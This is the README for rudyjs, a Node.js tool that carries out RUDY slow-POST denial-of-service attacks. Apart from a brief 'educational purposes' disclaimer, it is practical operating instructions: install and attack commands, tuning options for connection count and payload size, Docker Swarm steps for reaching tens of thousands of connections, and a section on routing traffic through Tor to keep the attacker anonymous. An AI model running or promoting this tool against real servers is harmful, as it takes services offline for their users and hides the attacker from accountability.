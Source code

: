 # rudyjs ( R-U-DEAD-YET ? )
## RUDY DDOS Attack Implementation on Node.js


[![NPM](https://nodei.co/npm/rudyjs.png?downloads=true&downloadRank=true&stars=true)](https://nodei.co/npm/rudyjs/)


[![Build Status](https://travis-ci.org/sahilchaddha/rudyjs.svg?branch=master)](https://travis-ci.org/sahilchaddha/rudyjs)
[![Build Status](https://semaphoreci.com/api/v1/projects/be75e13b-9b1c-43eb-8350-1a652fe84f03/1950351/badge.svg)](https://semaphoreci.com/sahilchaddha-96/rudy)
[![CircleCI](https://circleci.com/gh/sahilchaddha/rudyjs/tree/master.svg?style=svg)](https://circleci.com/gh/sahilchaddha/rudyjs/tree/master)
[![CodeFactor](https://www.codefactor.io/repository/github/sahilchaddha/rudyjs/badge)](https://www.codefactor.io/repository/github/sahilchaddha/rudyjs)
[![npm](https://img.shields.io/npm/v/rudyjs.svg)](https://www.npmjs.com/package/rudyjs)
[![GitHub release](https://img.shields.io/github/release/sahilchaddha/rudyjs.svg)](https://github.com/sahilchaddha/rudyjs)
[![npm](https://img.shields.io/npm/dm/rudyjs.svg)](https://www.npmjs.com/package/rudyjs)


### Powerful Lightweight RUDY DDOS Attack using Tor Proxy

What is RUDY Attack ?

new-relic fails

**NOTE**: For Educational/Penetration Testing Purposes Only (Mitigating RUDY DDos Attacks)

## Installation :

```
 $ npm install -g rudyjs
```

### Usage :

```
 $ rudy
```

### Sample Usage :

```
 $ rudy -t "http://localhost:3000" -d 5 -n 500 --useTor --torUrl "127.0.0.1" --torPort 9051 -m "GET"
```

The above command runs RUDY DDos Attack on `http://localhost:3000` with 5 seconds delay & 500 requests

### Options :

| Command            | Type | Default | Description                                           |
|--------------------|------|---------|-------------------------------------------------------|
| -t, --target  (string)| Required | http://localhost:8080 | Target URL to attack                      |
| -l, --length  (number)| Optional | 1048576 Bytes (1 Mb) | Size of Payload (Bytes)           |
| -n, --numberOfConnections  (number)           | Optional | 500 | Number of Max Connections|
| -m, --method  (string)       | Optional | POST | HTTP Request Method|
| -d, --delay  (number)       | Optional | 5 seconds | Delay between each Bytes sent (seconds)|
| -v, --verbose       | Optional | false | Enable Verbose logs|
| -p, --useTor       | Optional | false | Use Tor Proxy|
| -u, --torUrl  (string)      | Optional | 127.0.0.1 | Custom Tor Server URL|
| -o, --torPort  (number)       | Optional | 9050 | Custom Tor Port|


### Generate Payload : 

```
 $ rudy generatePayload <charCount>
```

Usage : 

```
 $ rudy generatePayload 2
```

`generatePayload` will generate dummy payload of specific character count.Keep character count as low as possible for rudy to be effective. Smaller the payload size will keep the HTTP Socket Connection longer. The Server assumes the client has slow internet connection and will ke the thread blocked.

### Docker : Automating Multiple Attacks

Typically a single attack can run upto 2000-5000 simultaneous requests (Depending upon amount of RAM the machine has). You can also run 15000-25000 simultaneous requests using docker.

You can create docker image from supplied Dockerfile and run the container image multiple times or can use docker swarm.

You can edit the Dockerfile to update your attack configuration.

Creating Docker Image : 

```
 $ docker build -t sahilchaddha/rudy .
```

Running Docker Image : 

```
 $ docker run -d sahilchaddha/rudy
```

Reading Docker Logs :

```
 # Get container ID
 $ docker ps

 # Print app output
 $ docker logs <container id>

 # Example
    > node dist/cli.js "-t" "http://localhost:3000/" "-v" "-d" "5" "-n" "1"

    ____       _   _       ____  _____    _    ____     __   _______ _____   ___
    |  _ \     | | | |     |  _ \| ____|  / \  |  _ \    \ \ / / ____|_   _| |__ \
    | |_) |____| | | |_____| | | |  _|   / _ \ | | | |____\ V /|  _|   | |     / /
    |  _ <_____| |_| |_____| |_| | |___ / ___ \| |_| |_____| | | |___  | |    |_|
    |_| \_\     \___/      |____/|_____/_/   \_\____/      |_| |_____| |_|    (_)

    Author : Sahil Chaddha
    Website: http://www.sahilchaddha.com
    Github : https://www.github.com/sahilchaddha
    Thu May 10 2018 14:58:02 GMT+0800 (+08) *** VERBOSE ::: Logger ::: Logger set to Verbose ***
    Thu May 10 2018 14:58:02 GMT+0800 (+08) *** INFO ::: Rudy_Service ::: Attack Started at http://localhost:3000/ With Workers : 1 ***
```

Docker Swarm : Automating Monitoring of multiple Docker images : 

```
 $ docker build -t sahilchaddha/rudy .  //[Only do this if you made changes to the Dockerfile]
 $ docker service create --name <serviceName> --detach=false sahilchaddha/rudy
 $ docker service ls   //[Can see 1/1 copy running]
 $ docker service scale <serviceName>=10 // 10 instances will be created of rudy
 $ docker service ls   //[Doing this multiple times you can see the # of copies increasing]
 $ docker service rm <serviceName> // To remove service
```

This will result in creating 10 instances of rudy attack running with 2000 connections will result in 20,000 connections. This can also lead to consuming lot of memory.

### Staying Anonumous : 

Use `-p, --useTor` to make requests using tor node.
IP Address will be anonymous (tor exit node)

Its preferable to use tor or ssh tunnel

### Troubleshooting : 

#### 413 Payload too large : 

This Error occurs when HTTP server denies requests with heavy payload. Reduce `packet_len` property to 1MB or lower.

#### 405 Not Allowed : 

This HTTP Error represents that HTTP METHOD ("GET"/"POST") is not allowed on the target URL. Try changing URL to another endpoint or change HTTP METHOD.

### Author : 

Sahil Chaddha